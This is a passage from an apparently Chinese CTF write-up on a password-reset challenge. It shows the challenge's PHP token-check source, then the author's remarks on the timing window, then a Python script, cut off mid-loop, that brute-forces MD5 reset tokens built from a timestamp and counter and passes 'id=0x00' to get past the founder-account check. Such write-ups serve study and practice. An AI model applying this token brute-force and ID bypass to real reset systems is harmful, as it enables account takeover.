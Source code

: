 ```


?>
```
checktoken.php
```
<?php
require('sql.php');
require('secret.php');

if(!empty($_GET['email']) && !empty($_GET['id'])  && !empty($_GET['token']))  
{


	$email = $result->email;
	$id = $result->id;
	$token = $result->token;

	if($id === '0'){
		if($_GET['email']===$email){
				if($_GET['token']===$token)
					echo $flag;
				else
					echo "token不对。";
				}
		                  else 
					echo "邮箱不对。";
	}
	else 
		echo "你想重置一个非创始人的密码，可这又有什么用呢？";


}
else 
	echo "参数不完整。";

?>
```

这里有个很傻逼的设置，一个round30分钟，只有一个能获得重置邮件的时间戳，即便是response的时间，也会有上下的+-几的时间差，导致一个round往往要跑40000、50000,而当时我5个round拿到3个，最后改脚本到多线程，20分钟跑了40000都没得到，后来无奈私聊出题人，将一个round改为10分钟，然后1000次请求，最后跑了6000才跑到，也就是理论上10000我是跑不到的....贴上脚步


```
import requests
import hashlib 
import Queue
import threading
import time


url = "http://web.l-ctf.com:33333/checktoken.php?id=0x00&email=omego952734@xdsec.club&token="
data = 1475406987

words = Queue.Queue()

for j in range(data-1,data+1):

	for i in range(1,1000):
		
		m = hashlib.md5()
		m.update(str(j)+str(i))
		token = m.hexdigest()
		urll = url+token
```